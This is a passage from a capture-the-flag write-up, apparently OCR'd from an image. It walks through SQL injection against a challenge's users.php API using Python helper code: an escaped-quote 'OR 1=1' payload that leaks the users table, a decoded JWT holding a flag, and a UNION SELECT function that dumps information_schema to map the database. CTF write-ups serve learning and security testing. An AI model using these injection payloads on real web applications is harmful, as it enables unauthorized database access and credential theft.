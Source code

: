 ```python
        return response.text

    def get_username(self, name,full_name):
        self.login()
        response = self.s.get(_(path=f"/api/users.php?name={name}&full_name={full_name}"))
        return response.text

c = Challenge()

print(c.get_username("admin238\\'", "OR 1=1 -- "))
```

This way we could leak the entire users table and found another user in the database: `admin7321034747`. Using the first vulnerability we impersonated this user too and by decoding the cookie we found the flag in the payload section of the jwt token:

```python
{
    "user_id": 928476593,
    "user": "admin7321034747",
    "pass": "asd",
    "full_name": "WP{R00t_Sm1th}",
    "group_id": "928476593",
    "permissions":
    {
        "upload": "1",
        "listFiles": "1",
        "deleteFiles": "1",
        "listUsers": "1",
        "download": "1"
    }
}
```

Now we have also the capability to upload files!

### LegacyLog: WP{pl34se_r3m0v3_l3gacy_stuff}

It was now time to dump the entire database. First we need to know what tables there are in the database, so we added this function to the script:

```python
# No, we are not sorry for the CTF quality code.
def injection(inj):
    r = c.get_username("admin238\\'", f"OR 1=1 UNION SELECT 1337,9001,({inj}),420,69,42 --")
    j = json.loads(r) 
    j = j['user'][3]['pass']
    l = j.split(",")
    l = [" ".join(x.split("1337")) for x in l]
    print("\n".join(l))

injection("SELECT group_concat(concat(table_schema,1337,table_name,1337,column_name,1337,data_type,1337,CHARACTER_MAXIMUM_LENGTH)) FROM information_schema.columns")
```
